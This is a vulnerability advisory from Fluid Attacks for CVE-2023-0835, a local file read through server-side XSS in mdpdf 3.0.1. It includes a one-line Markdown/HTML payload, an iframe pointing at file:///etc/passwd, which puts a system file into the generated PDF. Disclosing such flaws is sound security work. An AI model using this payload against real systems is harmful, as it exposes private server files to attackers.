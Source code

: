 ```yaml
---
slug: advisories/relsb/
title: mdpdf 3.0.1 - Local File Read via Server Side XSS
authors: Carlos Bello
writer: cbello
codename: relsb
product: mdpdf 3.0.1 - Local File Read
date: 2023-02-20 12:00 COT
cveid: CVE-2023-0835
severity: 7.5
description: mdpdf 3.0.1  -  Local File Read via Server Side XSS
keywords: Fluid Attacks, Security, Vulnerabilities, Markdown, PDF, LFR
banner: advisories-bg
advise: yes
template: maskedAdvisory
encrypted: yes
---
```


## Summary

|                       |                                                                    |
| --------------------- | -------------------------------------------------------------------|
| **Name**              | mdpdf 3.0.1 - Local File Read                                      |
| **Code name**         | [RelsB](https://en.wikipedia.org/wiki/Rels_B)                      |
| **Product**           | mdpdf                                                              |
| **Affected versions** | Version 3.0.1                                                      |
| **State**             | Public                                                             |
| **Release date**      | 2023-02-20                                                         |

## Vulnerability

|                       |                                                                                                                             |
| --------------------- | ----------------------------------------------------------------------------------------------------------------------------|
| **Kind**              | Server Side XSS                                                                                                             |
| **Rule**              | [425. Server Side XSS](https://docs.fluidattacks.com/criteria/vulnerabilities/425)                                          |
| **Remote**            | Yes                                                                                                                         |
| **CVSSv3 Vector**     | CVSS:3.1/AV:N/AC:L/PR:N/UI:N/S:U/C:H/I:N/A:N                                                                                |
| **CVSSv3 Base Score** | 7.5                                                                                                                         |
| **Exploit available** | Yes                                                                                                                         |
| **CVE ID(s)**         | [CVE-2023-0835](https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2023-0835)                                               |

## Description

mdpdf version 3.0.1 allows an external attacker to remotely obtain
arbitrary local files. This is possible because the application does not
validate the Markdown content entered by the user.

## Vulnerability

This vulnerability occurs because the application does not validate that
the Markdown content entered by the user is not malicious.

## Exploitation

To exploit this vulnerability, we only need to send the following malicious
Markdown to mdpdf:

### Exploit.md

```html
<iframe width="500" height="500" src=file:///etc/passwd></iframe>
```

Thus, when mdpdf parses the malicious Markdown, it will return the local
file specified in the generated PDF.

## Evidence of exploitation

![Explotation-mdpdf](https://rb.gy/evsbdp)

![LFR-Node-PDF](https://user-images.githubusercontent.com/51862990/218873920-d651c3a7-278b-431f-a5ed-04822b581105.png)

## Our security policy

We have reserved the ID CVE-2023-0835 to refer to this issue from now on.

* https://fluidattacks.com/advisories/policy/

## System Information

* Version: mdpdf 3.0.1

* Operating System: GNU/Linux

## Mitigation

There is currently no patch available for this vulnerability.

## Credits

The vulnerability was discovered by [Carlos
Bello](https://www.linkedin.com/in/carlos-andres-bello) from Fluid Attacks'
Offensive Team.

## References

**Vendor page** <https://www.npmjs.com/package/mdpdf/>

## Timeline

<time-lapse
  discovered="2023-02-14"
  contacted="2023-02-14"
  replied="2023-02-14"
  confirmed=""
  patched=""
  disclosure="">
</time-lapse>
